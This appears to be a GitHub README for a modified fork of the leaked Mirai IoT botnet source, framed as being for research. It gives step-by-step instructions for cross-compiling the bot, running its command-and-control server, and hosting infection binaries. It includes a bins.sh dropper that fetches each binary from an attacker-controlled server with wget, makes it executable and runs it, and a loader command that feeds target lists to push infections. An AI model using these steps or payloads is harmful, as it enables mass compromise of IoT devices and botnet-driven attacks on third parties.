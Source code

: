 # Mirai BotNet to Tashiro(未来砲)
<!--

  ,～（（((((((～～､
  (  ＿（（ (((＿　)
  |/　~^^＼)／^^~ヽ|
  |　　＿　《　＿   |
 (|-(_//_)-(_//_)-|）
  |　　 　厶､　　   |     ／￣￣￣￣￣￣￣￣￣￣￣
  ＼   ||||||||　／　　＜  Mirai BotNet to Tashiro.
    ＼_________／       ＼＿＿＿＿＿＿＿＿＿＿＿

-->
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code

I was referring to this for a moment.<br />
https://gist.github.com/ppoffice/86beb0f90de5aeec75aabd517ebc5e43

## Requirements
* To be able to use vi.
* Do not run in WSL.(I tried, but I couldn't use mysql or compile it.)
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution.

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.<br />
https://programmer.group/mirai-botnet-environment-setup-steps.html <br />
https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# sudo apt-get install git gcc golang electric-fence mysql-server mysql-client
```
If you are using debian, you cannot install mysql as it is, so please install it in the following way.
```
# wget https://dev.mysql.com/get/mysql-apt-config_0.8.22-1_all.deb
# sudo dpkg -i mysql-apt-config_0.8.22-1_all.deb
# sudo apt update && sudo apt install mysql-server mysql-client
```
After installing the dependency tools, follow the steps below.
```
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh release telnet
```
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
If you have iptbales/ip6tables or any firewall install disable it.
```
# sudo service iptables stop
```
Database setup<br />
※It will ask you to set a password, make sure you remember this.
```
# sudo /usr/bin/mysql_secure_installation
```
Go to `cd cnc/` and replace the root password you just entered with the MySQL_Password.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "MySQL_Password"
const DatabaseTable string  = "mirai"
```
Add users to mysql.
```
# cd ../scripts
# sudo mysql -uroot -pMySQL_Password
> INSERT INTO users VALUES (NULL, 'tashiro', 'mystrongestpassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# sudo service mysql restart
```
Once you restart the mysql server, go to your debug folder ./mirai/release, you will seen a compiled file named cnc execute it.
```
# cd ../mirai/release
# sudo ./cnc
```
Open a new window and execute the following command
```
# cd ..
# cp prompt.txt release/
```
Then, use telnet to connect to your IP address.<br />
The following is an example of running the telnet command.
```
# telnet 192.168.19.19
```
OK, well use this user name and password to login in this case the username is : `tashiro` and the password is : `mystrongestpassword`

again in you server Terminal some like Putty or mobaxterm.<br />
Go to this directory ../Mirai-Source-Code/mirai/release
```
# cd ./Mirai-Source-Code/mirai/release
```
Next, install and start the Apache server.
```
# sudo apt install apache2
# sudo service apache2 start
```
copy the mirai files at the apache source.
```
# sudo cp mirai.* /var/www/html
```
well we need to delete the index to show the index file directory on browser.
```
# rm /var/www/html/index.html
```
Then open a browser and enter http://localhost or your IP address and see if the file appears.

Go to /var/www/html and create bins.sh.
```
# cd /var/www/html
# touch bins.sh
```
Then, open bins.sh and write the following
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper
done
```
If you have vps, please upload /var/www/html using sftp.<br />
※If you do not have a vps, you may leave it as is.<br />
Please check by yourself if it really uploaded, I don't know much about vps or anything like that.

Now restart the Apache server.
```
# sudo service apache2 restart
```
Next, to build the loader, go to Mirai-Source-Code-plus/loader/ and build the loader.<br />
※Omit commands to move.
```
# chmod +x build.sh
# ./build.sh
```
and after than type this code but put you filename here --> file.txt before paste
```
# cat file.txt | ./loader wget http://dyn.com
```
This completes the installation. :)<br />
Thank you for your hard work. Take a break and have a cup of coffee or something.
